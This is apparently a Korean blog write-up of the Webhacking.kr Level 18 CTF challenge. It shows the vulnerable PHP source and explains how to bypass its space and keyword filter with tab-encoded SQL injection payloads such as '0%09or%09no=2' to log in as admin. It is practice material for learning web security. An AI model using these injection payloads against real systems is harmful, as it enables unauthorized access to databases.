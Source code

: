 ```yaml
---
layout: post
title: Webhacking.kr | Level 18
subtitle: Webhacking CTF Problem Solving
categories: webhacking.kr
tags: [Pentest, Web]
---
```


**본 문제는 [webhacking.kr](https://webhacking.kr)를 통해서 풀어 보실 수 있습니다.**

**해답을 이해하며 생각을 해보면서 풀이 해보시길 바랍니다.**

## 문제 내용

<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/198863390-54e3e418-676d-4e52-8636-c9881cb88667.jpg" width = 360> 
</p>

**SQL INJECTION**이란 타이틀과 우리가 입력한 값을 제출하는 form이 존재하며 결과 값을 출력해주는 것과 같은 **RESULT**가 존재한다.

view-source를 통해 어떠한 로직인지 확인해보겠습니다.

## 문제 풀이

```php
<?php
if($_GET['no']){
  $db = dbconnect();
  if(preg_match("/ |\/|\(|\)|\||&|select|from|0x/i",$_GET['no'])) exit("no hack");
  $result = mysqli_fetch_array(mysqli_query($db,"select id from chall18 where id='guest' and no=$_GET[no]")); // admin's no = 2

  if($result['id']=="guest") echo "hi guest";
  if($result['id']=="admin"){
    solve(18);
    echo "hi admin!";
  }
}
?>
```

입력한 값이 `no`라는 변수로 GET 전송을 진행하는 것을 알 수 있고, `preg_match()`를 통해 필터링이 진행되는 것을 알 수 있다.

* **필터링** : `/, \, |, (, ), &, select, from, 0x, 공백` 대소문자 구문 없이 진행

```sql
select id from chall18 where id='guest' and no=$_GET[no]
```

우리가 입력한 값과 `id='guest'`를 **AND** 연산하여 해당 질의가 chall18 table에 존재하면 해당 ID를 `result` 변수에 저장하는 것으로 볼 수 있다.

주석을 보면 **admin's no = 2**라는 힌트를 알 수 있다. 그렇다면 guest의 id는 무엇인지 입력해보겠습니다.

<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/198864031-df494e3e-2dae-4a34-bc28-cbd5b17a1501.jpg" width = 360> 
</p>

**1**이라는 값을 넣으니 RESULT에 **hi guest**라는 문구가 출력된다.

그렇다면 해당 결과의 id가 admin이면서 입력 값이 2가 되어야 하는데 현재 질의로는 무조건 `guest`로 되어있다.

SQLi를 통해 해당 구문을 강제로 참으로 만들거나, id를 **admin**으로 다시 전송하는 것이 가능할 것으로 보인다.

```sql
where id='guest' and no=$_GET[no] or no=2 -- 참
```

`where id='guest' and no=$_GET[no]`까지는 **0**값을 전송하면 guest의 id가 0이므로 False이지만, **OR** 연산으로 값이 2인 것이 참이 되어 해결될 것이다.

```sql
where id='guest' and no=$_GET[no] or id="admin" and no=2 -- 강제 Admin
```

**OR** 기준으로 앞쪽의 질의를 거짓으로 하고 뒤 질의가 참인 값을 전달한다면 OR로 인해 참이 되어 해결될 것이다.

해당 값을 form에서 입력하게 된다면 URL Ending으로 입력 값이 변환이 되어 실패하게 된다. 

따라서, URL에 직접 입력하는 방식으로 하면 풀리게 될 것이다.

* `0%09or%09no=2`

* `0%09or%09id="admin"%09and%09no=2`